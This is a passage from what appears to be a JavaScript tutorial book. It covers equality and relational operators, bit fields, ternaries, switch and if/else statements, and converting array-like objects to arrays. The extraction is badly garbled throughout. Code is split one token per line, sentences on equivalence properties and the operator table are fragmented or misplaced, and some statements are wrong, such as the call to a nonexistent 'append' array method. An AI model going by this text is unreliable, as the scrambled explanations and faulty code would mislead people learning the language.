It behaves like SameValue, but considers +0 and -0 to be equal.

  
  Array          .   **prototype**              .   includes
      

  

You can use this comparison algorithm via (ECMAScript 7).
>
Examples:

\[

1

\]

.

includes

(

1

)

;

*// true*

\[

\+

0

\]

.

includes

(

\-

0

)

;

*// true*

\[

**NaN**

\]

.

includes

(

**NaN**

)

;

*// true*

\[

**true**

\]

.

includes

(

\"true\"

)

;

*// false*

\[

**false**

\]

.

includes

(

0

)

;

*// false*

\[

1

\]

.

includes

(

\"1\"

)

;

*// false*

\[

**null**

\]

.

includes

(

**undefined**

)

;

*// false*

\[

\[

\]

\]

.

includes

(

\[

\]

)

;

*// false*

This algorithm still has the properties of an [equivalence
relation](https://en.wikipedia.org/wiki/Equivalence_relation):

  
  includes
  

  

  
  includes      \(y\) is **true** if, and only if, \[y\].   includes
  -  -

  

  
  includes   \(y\) and      includes   \(z\) are **true**, then  includes
             \[y\].                    \[x\].                    
  -  -  -

  

[Reflexivity](https://en.wikipedia.org/wiki/Reflexive_relation):
\[x\].(x) is **true**, for any value x
>
[Symmetry](https://en.wikipedia.org/wiki/Symmetric_relation):
\[x\].(x) is **true**, for any values x and y.
[Transitivity](https://en.wikipedia.org/wiki/Symmetric_relation): If
\[x\].(z) is also **true**, for any values x, y and z.

[**Strict Equality
Comparison**](http://www.ecma-international.org/ecma-262/6.0/#sec-strict-equality-comparison)

It behaves like SameValue, but
>
Considers +0 and -0 to be equal.
>
Considers **NaN** different than any value, including itself
>
You can use this comparison algorithm via the === operator (ECMAScript
3).
>
There is also the !== operator (ECMAScript 3), which negates the
result of ===.
>
Examples:

1

===

1

;

*// true*

\+

0

===

\-

0

;

*// true*

**NaN**

===

**NaN**

;

*// false*

**true**

===

\"true\"

;

*// false*

**false**

===

0

;

*// false*

1

===

\"1\"

;

*// false*

**null**

===

**undefined**

;

*// false*

\[

\]

===

\[

\]

;

*// false*

This algorithm has the following properties:

  
  x === y   is **true** if, and only if, y ===        **for** any values
            xistrue,                                  
    

  

  
  x === y      and     y === z      are **true**, then       x === z
   -  - 

  

[Symmetry](https://en.wikipedia.org/wiki/Symmetric_relation): xandy\`.
>
[Transitivity](https://en.wikipedia.org/wiki/Symmetric_relation): If
is also **true**, for any values x, y and z.
>
But is not an [equivalence
relation](https://en.wikipedia.org/wiki/Equivalence_relation) because

  
  **NaN** !== **NaN**
  

  

**NaN** is not
[reflexive](https://en.wikipedia.org/wiki/Reflexive_relation):

[**Abstract Equality
Comparison**](http://www.ecma-international.org/ecma-262/6.0/#sec-abstract-equality-comparison)

If both operands belong to the same Type, it behaves like the Strict
Equality Comparison.
>
Otherwise, it coerces them as follows:
>
**undefined** and **null** are considered to be equal
>
When comparing a number with a string, the string is coerced to a
number
>
When comparing a boolean with something else, the boolean is coerced
to a number

When comparing an object with a number, string or symbol, the object is
coerced to a primitive If there was a coercion, the coerced values are
compared recursively. Otherwise the algorithm returns **false**.

You can use this comparison algorithm via the == operator (ECMAScript
1).
>
There is also the != operator (ECMAScript 1), which negates the result
of ==.
>
Examples:

1

==

1

;

*// true*

\+

0

==

\-

0

;

*// true*

**NaN**

==

**NaN**

;

*// false*

**true**

==

\"true\"

;

*// false*

**false**

==

0

;

*// true*

1

==

\"1\"

;

*// true*

**null**

==

**undefined**

;

*// true*

\[

\]

==

\[

\]

;

*// false*

This algorithm has the following property:

  
  x == y        is **true** if, and only if,                y == x
  -  -

  

[Symmetry](https://en.wikipedia.org/wiki/Symmetric_relation): is
**true**, for any values x and y.

But is not an [equivalence
relation](https://en.wikipedia.org/wiki/Equivalence_relation) because

  
  **NaN** != **NaN**
  

  

  -
  == \'\'       and 0       == \'0\'        , but     \'\' != \'0\'
  -    

  -

**NaN** is not
[reflexive](https://en.wikipedia.org/wiki/Reflexive_relation):

[Transitivity](https://en.wikipedia.org/wiki/Symmetric_relation) does
not hold, e.g. 0

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-11">Section 10.11: Relational operators (\<, \<=, \>, \>=)</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

When both operands are numeric, they are compared normally:

1

\<

2

*// true*

2

\<=

2

*// true*

3

\>=

5

*// false*

**true**

\<

**false**

*// false (implicitly converted to numbers, 1 \0)*

When both operands are strings, they are compared lexicographically
(according to alphabetical order):

\'a\'

\<

\'b\'

*// true*

\'1\'

\<

\'2\'

*// true*

\'100\' \\'12\' *// false (\'100\' is less than \'12\'
lexicographically!)*
>
When one operand is a string and the other is a number, the string is
converted to a number before comparison:

\'1\'

\<

2

*// true*

\'3\'

\>

2

*// true*

**true**

\>

\'2\'

*// false (true implicitly converted to number, 1 \< 2)*

When the string is non-numeric, numeric conversion returns **NaN**
(not-a-number). Comparing with **NaN** always returns **false**:

1

\<

\'abc\'

*// false*

1

\>

\'abc\'

*// false*

But be careful when comparing a numeric value with **null**,
**undefined** or empty strings:

1

\>

\'\'

*// true*

1

\<

\'\'

*// false*

1

\>

**null**

*// true*

1

\<

**null**

*// false*

1

\>

**undefined**

*// false*

1

\<

**undefined**

*// false*

  -
  Number                     (    **null**          );       *//0*
      -

  -

When one operand is a object and the other is a number, the object is
converted to a number before comparison.So **null** is particular case
because

**new**

Date

(

2015

)

\<

1479480185280

*// true*

**null**

\>

\-

1

*//true*

(

{

toString

:

**function**

(

)

{

**return**

123

}

}

)

\>

122

*//true*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-12">Section 10.12: Inequality</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Operator != is the inverse of the == operator.

Will return **true** if the operands aren\'t equal.

The JavaScript engine will try and convert both operands to matching
types if they aren\'t of the same type. **Note:** if the two operands
have different internal references in memory, then **false** will be
returned.

**Sample:**

1

!=

\'1\'

*// false*

1

!=

2

*// true*

  
  != \'1\'
  

  

In the sample above, 1 is **false** because, a primitive number type
is being compared to a char value. Therefore, the JavaScript engine
doesn\'t care about the datatype of the R.H.S value.

Operator: !== is the inverse of the === operator. Will return true if
the operands are not equal or if their types do not match.

Example:

1

!==

\'1\'

*// true*

1

!==

2

*// true*

1

!==

1

*// false*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-13">Section 10.13: List of Comparison Operators</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Operator Comparison Example**

  
  i ==
  

  

== Equal0

  
  i === \"5\"
  

  

=== Equal Value and Type

  
  i !=
  

  

!= Not Equal5

  
  i !==
  

  

!== Not Equal Value or Type5

  
  i
  

  

\Greater than\5

  
  i
  

  

\< Less than\< 5

  
  i \>=
  

  

\>= Greater than or equal5

  
  i \<=
  

  

\<= Less than or equal5

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-14">Section 10.14: Grouping multiple logic statements</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

You can group multiple boolean logic statements within parenthesis in
order to create a more complex logic evaluation, especially useful in
if statements.

**if**

(

(

age

\>=

18

&&

height

\>=

5.11

)

\|\|

(

status

===

\'royalty\'

&&

hasInvitation

)

)

{

console.

log

(

\'You can enter our club\'

)

;

}

We could also move the grouped logic to variables to make the
statement a bit shorter and descriptive:

**var**

isLegal

=

age

\>=

18

;

**var**

tall

=

height

\>=

5.11

;

**var**

suitable

=

isLegal

&&

tall

;

**var**

isRoyalty

=

status

===

\'royalty\'

;

**var**

specialCase

=

isRoyalty

&&

hasInvitation

;

**var**

canEnterOurBar

=

suitable

\|\|

specialCase

;

**if**

(

canEnterOurBar

)

console.

log

(

\'You can enter our club\'

)

;

Notice that in this particular example (and many others), grouping the
statements with parenthesis works the same as if we removed them, just
follow a linear logic evaluation and you\'ll find yourself with the
same result. I do prefer using parenthesis as it allows me to
understand clearer what I intended and might prevent for logic
mistakes.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-15">Section 10.15: Bit fields to optimise comparison of multi state data</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

A bit field is a variable that holds various boolean states as
individual bits. A bit on would represent true, and off would be
false. In the past bit fields were routinely used as they saved memory
and reduced processing load. Though the need to use bit field is no
longer so important they do offer some benefits that can simplify many
processing tasks.

For example user input. When getting input from a keyboard\'s
direction keys up, down, left, right you can encode the various keys
into a single variable with each direction assigned a bit.

Example reading keyboard via bitfield

**var** bitField = 0; *// the value to hold the bits* **const**
KEY_BITS = \[4,1,8,2\]; *// left up right down* **const** KEY_MASKS =
\[0b1011,0b1110,0b0111,0b1101\]; *// left up right down*
window.onkeydown = window.onkeyup = **function** (e) {
**if**(e.keyCode \>= 37 && e.keyCode \<41){

**if**

(

e\.

type

===

\"keydown\"

)

{

bitField

\|=

KEY_BITS

\[

e\.

keyCode

\-

37

\]

;

}

**else**

{

bitField

&=

KEY_MASKS

\[

e\.

keyCode

\-

37

\]

;

}

}

}

Example reading as an array

**var**

directionState

=

\[

**false**

,

**false**

,

**false**

,

**false**

\]

;

window.

onkeydown

=

window.

onkeyup

=

**function**

(

e

)

{

**if**

(

e\.

keyCode

\>=

37

&&

e\.

keyCode

\<

41

)

{

directionState

\[

e\.

keyCode

\-

37

\]

=

e\.

type

===

\"keydown\"

;

}

}

  
  \|= 0b10
  

  

To turn on a bit use bitwise *or* \| and the value corresponding to
the bit. So if you wish to set the 2nd bit bitField will turn it on.
If you wish to turn a bit off use bitwise *and* & with a value that
has all by the required bit on.

  
  bitfield &= 0b1101
  

  

Using 4 bits and turning the 2nd bit off ;
>
You may say the above example seems a lot more complex than assigning
the various key states to an array. Yes, it is a little more complex
to set but the advantage comes when interrogating the state.
>
If you want to test if all keys are up.

*// as bit field*

**if**

(

!

bitfield

)

*// no keys are on*

*// as array test each item in array*

**if**

(

!

(

directionState

\[

0

\]

&&

directionState

\[

1

\]

&&

directionState

\[

2

\]

&&

directionState

\[

3

\]

)

)

{

You can set some constants to make things easier

*// postfix U,D,L,R for Up down left right*

**const**

KEY_U

=

1

;

**const**

KEY_D

=

2

;

**const**

KEY_L

=

4

;

**const**

KEY_R

=

8

;

**const**

KEY_UL

=

KEY_U

\+

KEY_L

;

*// up left*

**const**

KEY_UR

=

KEY_U

\+

KEY_R

;

*// up Right*

**const**

KEY_DL

=

KEY_D

\+

KEY_L

;

*// down left*

**const**

KEY_DR

=

KEY_D

\+

KEY_R

;

*// down right*

You can then quickly test for many various keyboard states
>
**if** ((bitfield & KEY_UL) === KEY_UL) { *// is UP and LEFT only
down* **if** (bitfield & KEY_UL) { *// is Up left down* **if**
((bitfield & KEY_U) === KEY_U) { *// is Up only down* **if** (bitfield
& KEY_U) { *// is Up down (any other key may be down)* **if**
(!(bitfield & KEY_U)) { *// is Up up (any other key may be down)*
**if** (!bitfield ) { *// no keys are down*
>
**if** (bitfield ) { *// any one or more keys are down*
>
The keyboard input is just one example. Bitfields are useful when you
have various states that must in combination be acted on. JavaScript
can use up to 32 bits for a bit field. Using them can offer
significant performance increases. They are worth being familiar with.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch11">Chapter 11: Conditions</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Conditional expressions, involving keywords such as if and else,
provide JavaScript programs with the ability to perform different
actions depending on a Boolean condition: true or false. This section
covers the use of JavaScript conditionals, Boolean logic, and ternary
statements.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch11-1">Section 11.1: Ternary operators</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Can be used to shorten if/else operations. This comes in handy for
returning a value quickly (i.e. in order to assign it to another
variable).
>
For example:

**var**

animal

=

\'kitty\'

;

**var**

result

=

(

animal

===

\'kitty\'

)

?

\'cute\'

:

\'still nice\'

;

In this case, result gets the \'cute\' value, because the value of
animal is \'kitty\'. If animal had another value, result would get the
\'still nice\' value.

  -
  **if**               /          **else**
   - -

  -

Compare this to what the code would like with conditions.

**var**

animal

=

\'kitty\'

;

**var**

result

=

\'\'

;

**if**

(

animal

===

\'kitty\'

)

{

result

=

\'cute\'

;

}

**else**

{

result

=

\'still nice\'

;

}

The if or **else** conditions may have several operations. In this
case the operator returns the result of the last expression.

**var**

a

=

0

;

**var**

str

=

\'not a\'

;

**var**

b

=

\'\'

;

b

=

a

===

0

?

(

a

=

1

,

str

+=

\' test\'

)

:

(

a

=

2

)

;

Because a was equal to 0, it becomes 1, and str becomes \'not a
test\'. The operation which involved str was the last, so b receives
the result of the operation, which is the value contained in str, i.e.
\'not a test\'.
>
Ternary operators *always* expect else conditions, otherwise you\'ll
get a syntax error. As a workaround you could return a zero something
similar in the else branch - this doesn\'t matter if you aren\'t using
the return value but just shortening (or attempting to shorten) the
operation.

**var**

a

=

1

;

a

===

1

?

alert

(

\'Hey, it is 1!\'

)

:

0

;

  
  **if**   (   a ===        1\)   alert        (   \'Hey, it is 1!\'
     -   

  

As you see, ); would do the same thing. It would be just a char
longer, since
>
it doesn\'t need an obligatory **else** condition. If an **else**
condition was involved, the ternary method would be much cleaner.
>
a === 1 ? alert(\'Hey, it is 1!\') : alert(\'Weird, what could it
be?\'); **if** (a === 1) alert(\'Hey, it is 1!\') **else**
alert(\'Weird, what could it be?\');
>
Ternaries can be nested to encapsulate additional logic. For example

foo

?

bar

?

1

:

2

:

3

*// To be clear, this is evaluated left to right*

*// and can be more explicitly expressed as:*

foo

?

(

bar

?

1

:

2

)

:

3

  -
  **if**               /          **else**
   - -

  -

This is the same as the following

**if**

(

foo

)

{

**if**

(

bar

)

{

1

}

**else**

{

2

}

}

**else**

{

3

}

Stylistically this should only be used with short variable names, as
multi-line ternaries can drastically decrease readability.
>
The only statements which cannot be used in ternaries are control
statements. For example, you cannot use return or break with
ternaries. The following expression will be invalid.

**var**

animal

=

\'kitty\'

;

**for**

(

**var**

i

=

0

;

i

\<

5

;

++

i

)

{

(

animal

===

\'kitty\'

)

?

**break**

:

console.

log

(

i

)

;

}

For return statements, the following would also be invalid:

**var**

animal

=

\'kitty\'

;

(

animal

===

\'kitty\'

)

?

**return**

\'meow\'

:

**return**

\'woof\'

;

To do the above properly, you would return the ternary as follows:

**var**

animal

=

\'kitty\'

;

**return**

(

animal

===

\'kitty\'

)

?

\'meow\'

:

\'woof\'

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch11-2">Section 11.2: Switch statement</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Switch statements compare the value of an expression against 1 or more
values and executes different sections of code based on that
comparison.

**var**

value

=

1

;

**switch**

(

value

)

{

**case**

1

:

console.

log

(

\'I will always run\'

)

;

**break**

;

**case**

2

:

console.

log

(

\'I will never run\'

)

;

**break**

;

}

The **break** statement \"breaks\" out of the switch statement and
ensures no more code within the switch statement is executed. This is
how sections are defined and allows the user to make \"fall through\"
cases.

**Warning**

:

lack of a

**break**

or

**return**

statement for each case means the program will continue to evaluate

the next case, even if the case criteria is unmet!

**switch**

(

value

)

{

**case**

1

:

console.

log

(

\'I will only run if value === 1\'

)

;

*// Here, the code \"falls through\" and will run the code under case 2*

**case**

2

:

console.

log

(

\'I will run if value === 1 or value === 2\'

)

;

**break**

;

**case**

3

:

console.

log

(

\'I will only run if value === 3\'

)

;

**break**

;

}

The last case is the **default** case. This one will run if no other
matches were made.

**var**

animal

=

\'Lion\'

;

**switch**

(

animal

)

{

**case**

\'Dog\'

:

console.

log

(

\'I will not run since animal !== \"Dog\"\'

)

;

**break**

;

**case**

\'Cat\'

:

console.

log

(

\'I will not run since animal !== \"Cat\"\'

)

;

**break**

;

**default**

:

console.

log

(

\'I will run since animal does not match any other case\'

)

;

}

It should be noted that a case expression can be any kind of
expression. This means you can use comparisons, function calls, etc.
as case values.

**function**

john

(

)

{

**return**

\'John\'

;

}

**function**

jacob

(

)

{

**return**

\'Jacob\'

;

}

**switch**

(

name

)

{

**case**

john

(

)

:

*// Compare name with the return value of john() (name == \"John\")*

console.

log

(

\'I will run if name === \"John\"\'

)

;

**break**

;

**case**

\'Ja\'

\+

\'ne\'

:

*// Concatenate the strings together then compare (name == \"Jane\")*

console.

log

(

\'I will run if name === \"Jane\"\'

)

;

**break**

;

**case**

john

(

)

\+

\' \'

\+

jacob

(

)

\+

\' Jingleheimer Schmidt\'

:

console.

log

(

\'His name is equal to name too!\'

)

;

**break**

;

}

**Multiple Inclusive Criteria for Cases**
>
Since cases \"fall through\" without a **break** or **return**
statement, you can use this to create multiple inclusive criteria:

**var**

x

=

\"c\"

**switch**

(

x

)

{

**case**

\"a\"

:

**case**

\"b\"

:

**case**

\"c\"

:

console.

log

(

\"Either a, b, or c was selected.\"

)

;

**break**

;

**case**

\"d\"

:

console.

log

(

\"Only d was selected.\"

)

;

**break**

;

**default**

:

console.

log

(

\"No case was matched.\"

)

;

**break**

;

*// precautionary break if case order changes*

}

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch11-3">Section 11.3: If / Else If / Else Control</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

In its most simple form, an if condition can be used like this:

**var**

i

=

0

;

**if**

(

i

\<

1

)

{

console.

log

(

\"i is smaller than 1\"

)

;

}

The condition

i

\<

1

is evaluated, and if it evaluates to

**true**

the block that follows is executed. If it evaluates to

**false**, the block is skipped.
>
An if condition can be expanded with an **else** block. The condition
is checked *once* as above, and if it evaluates to **false** a
secondary block will be executed (which would be skipped if the
condition were **true**). An example:

**if**

(

i

\<

1

)

{

console.

log

(

\"i is smaller than 1\"

)

;

}

**else**

{

console.

log

(

\"i was not smaller than 1\"

)

;

}

Supposing the **else** block contains nothing but another if block
(with optionally an **else** block) like this:

**if**

(

i

\<

1

)

{

console.

log

(

\"i is smaller than 1\"

)

;

}

**else**

{

**if**

(

i

\<

2

)

{

console.

log

(

\"i is smaller than 2\"

)

;

}

**else**

{

console.

log

(

\"none of the previous conditions was true\"

)

;

}

}

Then there is also a different way to write this which reduces
nesting:

**if**

(

i

\<

1

)

{

console.

log

(

\"i is smaller than 1\"

)

;

}

**else**

**if**

(

i

\<

2

)

{

console.

log

(

\"i is smaller than 2\"

)

;

}

**else**

{

console.

log

(

\"none of the previous conditions was true\"

)

;

}

Some important footnotes about the above examples:
>
If any one condition evaluated to **true**, no other condition in that
chain of blocks will be evaluated, and all corresponding blocks
(including the **else** block) will not be executed.

  
  **else** **if**
  

  

The number of parts is practically unlimited. The last example above
only contains one, but you can have as many as you like.
>
The *condition* inside an if statement can be anything that can be
coerced to a boolean value, see the topic on boolean logic for more
details;

  
  if             \-      else                         \-      **if**
   -  - 

  

The ladder exits at the first success. That is, in the example above,
if the value of i is 0.5 then the first branch is executed. If the
conditions overlap, the first criteria occurring in the flow of
execution is executed. The other condition, which could also be true
is ignored.

If you have only one statement, the braces around that statement are
technically optional, e.g this is fine:

**if**

(

i

\<

1

)

console.

log

(

\"i is smaller than 1\"

)

;

And this will work as well:

**if**

(

i

\<

1

)

console.

log

(

\"i is smaller than 1\"

)

;

If you want to execute multiple statements inside an if block, then
the curly braces around them are mandatory. Only using indentation
isn\'t enough. For example, the following code:

**if**

(

i

\<

1

)

console.

log

(

\"i is smaller than 1\"

)

;

console.

log

(

\"this will run REGARDLESS of the condition\"

)

;

*// Warning, see text!*

is equivalent to:

**if**

(

i

\<

1

)

{

console.

log

(

\"i is smaller than 1\"

)

;

}

console.

log

(

\"this will run REGARDLESS of the condition\"

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch11-4">Section 11.4: Strategy</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

A strategy pattern can be used in JavaScript in many cases to replace
a switch statement. It is especially helpful when the number of
conditions is dynamic or very large. It allows the code for each
condition to be independent and separately testable.

Strategy object is simple an object with multiple functions,
representing each separate condition. Example:

**const**

AnimalSays

=

{

dog

(

)

{

**return**

\'woof\'

;

}

,

cat

(

)

{

**return**

\'meow\'

;

}

,

lion

(

)

{

**return**

\'roar\'

;

}

,

*// \... other animals*

**default**

(

)

{

**return**

\'moo\'

;

}

}

;

The above object can be used as follows:

**function**

makeAnimalSpeak

(

animal

)

{

*// Match the animal by type*

**const**

speak

=

AnimalSays

\[

animal

\]

\|\|

AnimalSays.

**default**

;

console.

log

(

animal

\+

\' says \'

\+

speak

(

)

)

;

}

Results:

makeAnimalSpeak

(

\'dog\'

)

*// =\\'dog says woof\'*

makeAnimalSpeak

(

\'cat\'

)

*// =\\'cat says meow\'*

makeAnimalSpeak

(

\'lion\'

)

*// =\\'lion says roar\'*

makeAnimalSpeak

(

\'snake\'

)

*// =\\'snake says moo\'*

In the last case, our default function handles any missing animals.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch11-5">Section 11.5: Using \|\| and && short circuiting</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The Boolean operators \|\| and && will \"short circuit\" and not
evaluate the second parameter if the first is true or false
respectively. This can be used to write short conditionals like:

**var**

x

=

10

x

==

10

&&

alert

(

\"x is 10\"

)

x

==

10

\|\|

alert

(

\"x is not 10\"

)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch12">Chapter 12: Arrays</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-1">Section 12.1: Converting Array-like Objects to Arrays</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**What are Array-like Objects?**

JavaScript has \"Array-like Objects\", which are Object
representations of Arrays with a length property. For example:

**var**

realArray

=

\[

\'a\'

,

\'b\'

,

\'c\'

\]

;

**var**

arrayLike

=

{

0

:

\'a\'

,

1

:

\'b\'

,

2

:

\'c\'

,

length

:

3

}

;

  
  [document.getElementsByTagName](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName)   or   [document.querySelectorAll](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelectorAll)
  -  

  

Common examples of Array-like Objects are the
[arguments](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Functions/arguments)
object in functions and
[HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)
or
[NodeList](https://developer.mozilla.org/en-US/docs/Web/API/NodeList)
objects returned from methods like .

However, one key difference between Arrays and Array-like Objects is
that Array-like objects inherit from

  
  [Object](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/prototype)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/prototype)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/prototype)   instead of       [Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/prototype)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/prototype)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/prototype)
    - - - - 

  

. This means that Array-like Objects can\'t access common
[Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/prototype#Methods)

  
  [forEach](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach),   [push](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/push)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/push),   [map](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/map)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/map),   [filter](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter),   [slice](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/slice)
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   and                                                                                                    
  - - -      -

  

[prototype
methods](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/prototype#Methods)
like
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/slice):

**var**

parent

=

document.

getElementById

(

\'myDropdown\'

)

;

**var**

desiredOption

=

parent.

querySelector

(

\'option\[value=\"desired\"\]\'

)

;

**var**

domList

=

parent.

children

;

domList.

indexOf

(

desiredOption

)

;

*// Error! indexOf is not defined.*

domList.

forEach

(

**function**

(

)

{

arguments.

map

(

*/\* Stuff here \*/*

)

*// Error! map is not defined.*

}

)

;

*// Error! forEach is not defined.*

**function**

func

(

)

{

console.

log

(

arguments

)

;

}

func

(

1

,

2

,

3

)

;

*//*

→

*\[1, 2, 3\]*

**Convert Array-like Objects to Arrays in ES6**

  -
  Array                               .       from
   - 

  -

1.:

Version ≥ 6

**const**

arrayLike

=

{

0

:

\'Value 0\'

,

1

:

\'Value 1\'

,

length

:

2

}

;

arrayLike.

forEach

(

value

=\>

{

*/\* Do something \*/*

}

)

;

*// Errors*

**const**

realArray

=

Array

.

from

(

arrayLike

)

;

realArray.

forEach

(

value

=\>

{

*/\* Do something \*/*

}

)

;

*// Works*

  
  **for**\...of
  

  

2.:

Version ≥ 6

**var**

realArray

=

\[

\]

;

**for**

(

**const**

element of arrayLike

)

{

realArray.

append

(

element

)

;

}

3\. Spread operator:

Version

≥

6

\[

\...

arrayLike

\]

  
  Object                           .     values
  - - -

  

4.:

Version ≥ 7

**var**

realArray

=

Object

.

values

(

arrayLike

)

;

  
  Object                                 .      keys
    

  

5.:

Version ≥ 6

.map((key) =\arrayLike\[key\]); **Convert Array-like Objects to
Arrays in** ≤ **ES5**

**var**

realArray

=

Object

.

keys

(

arrayLike

)

  -
  Array            .   **prototype**                  .   slice
  -  -  -

  -

Use like so:

**var**

arrayLike

=

{

0

:

\'Value 0\'

,

1

:

\'Value 1\'

,

length

:

2

}

;

**var**

realArray

=

Array

.

**prototype**

.

slice

.

call

(

arrayLike

)

;

realArray

=

\[

\]

.

slice

.

call

(

arrayLike

)

;

*// Shorter version*

realArray.

indexOf

(

\'Value 1\'

)

;

*// Wow! this works*

  
  Function     .   **prototype**   .   call   to call   Array    .   **prototype**
          

  

You can also use methods on Array-like objects directly, without
converting them: Version ≥ 5.1

